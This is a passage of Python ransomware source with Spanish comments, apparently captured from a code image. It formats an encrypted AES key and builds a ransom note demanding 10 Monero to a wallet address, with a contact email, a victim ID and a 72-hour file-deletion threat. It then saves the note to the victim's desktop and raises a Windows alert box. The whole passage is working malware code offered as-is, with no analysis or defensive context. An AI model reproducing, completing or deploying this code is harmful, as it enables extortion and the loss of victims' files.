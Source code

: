 ```python
    
    # Codificar la clave en base64 y formatearla en fragmentos de 64 caracteres
    aes_key_encrypted_b64 = base64.b64encode(aes_key_encrypted).decode()
    aes_key_formatted = "\n".join([aes_key_encrypted_b64[i:i+64] for i in range(0, len(aes_key_encrypted_b64), 64)])
    
    # Obtener el ID de la víctima
    victim_id = agent.get_agent_id()

    # Contenido de la nota de rescate con Monero (XMR) como la criptomoneda de pago
    note = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con **AES-CBC** de **256 bits**.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en **Monero (XMR)** a la siguiente dirección:
   42xu1n15ewNsd9qzT8x5nHg9vZo1CwFFZZQHd3Lg8T2m8GeHkhsK69h5UBktZkVqz6hbsYYhPz9dggtZyPjvdyDveWipQUF

2. La cantidad requerida es **10 Monero (XMR)**. 

3. Envía un correo a recoveryourfiles@genaixciphers.com con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: {victim_id}

4. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

----------------------------
  INFORMACIÓN SOBRE TU CLAVE 
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

{aes_key_formatted}

Atentamente, 
GenAIx Ciphers
"""

    # Ruta donde se guardará la nota de rescate
    note_path = os.path.join(desktop, "README_IMPORTANTE.txt")

    # Guardar la nota en un archivo de texto en el escritorio
    with open(note_path, "w", encoding="utf-8") as archivo:
        archivo.write(note)

    # Mostrar un mensaje emergente usando MessageBox de Windows
    ctypes.windll.user32.MessageBoxW(0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
                                     "ALERTA DE SEGURIDAD", 0x10 | 0x1)
```